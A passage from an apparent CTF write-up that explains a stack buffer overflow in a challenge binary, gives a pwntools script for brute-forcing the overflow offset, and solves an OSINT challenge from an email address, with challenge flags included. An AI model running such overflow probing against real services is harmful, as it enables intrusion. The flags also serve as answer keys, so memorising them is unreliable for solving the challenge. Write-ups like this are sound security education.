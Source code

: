 After that, I looked again at the source, trying to find a vulnerability, and found one: 
```c=
    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));
```
Which is a clear buffer overflow, given that the `message` buffer is only 128 bytes long, yet here it writes 10 (`"Hi there, "`) + 64 (read from stdin) + `sizeof suffix` (I'm too lazy to count the characters), which looks to be longer than 64 characters. 

I then noticed that there were four null bytes at the end, and it clicked to me that the `moc.` was actually a `.com`, and the four null bytes + `.com` made the target address. In the end, I just went for the easy way of just bruteforcing the exact offset in the local binary, using this script:

```python=
from pwn import *

context.log_level = "debug"
def poun(bf=0):
    t = process("./vuln")
    # t = remote("insanity-check.chal.irisc.tf", 10003)

    t.sendline(b"A" * bf)

    t.interactive()
    t.close()

for i in range(128):
    print(f"{i=}")
    poun(i)

```

Until I had the exact amount of characters: `56`.

After that, I just ran it on remote and got the flag.

Flag: `irisctf{c0nv3n13nt_symb0l_pl4cem3nt}`

### Away on vacation (OSINT)

This challenge had this email in the description: `michelangelocorning0490@gmail.com`

Searching for `michelangelo corning` in DuckDuckGo returned the following Instagram account: `https://www.instagram.com/michelangelo_corning/`

The flag is contained in one of the posts
![image](https://hackmd.io/_uploads/HyoLhMidp.png)

Flag: `irisctf{pub1ic_4cc0unt5_4r3_51tt1ng_duck5}`

### Czech where?

This challenge provides this image: 
![image](https://hackmd.io/_uploads/ryyh2GsOT.png)
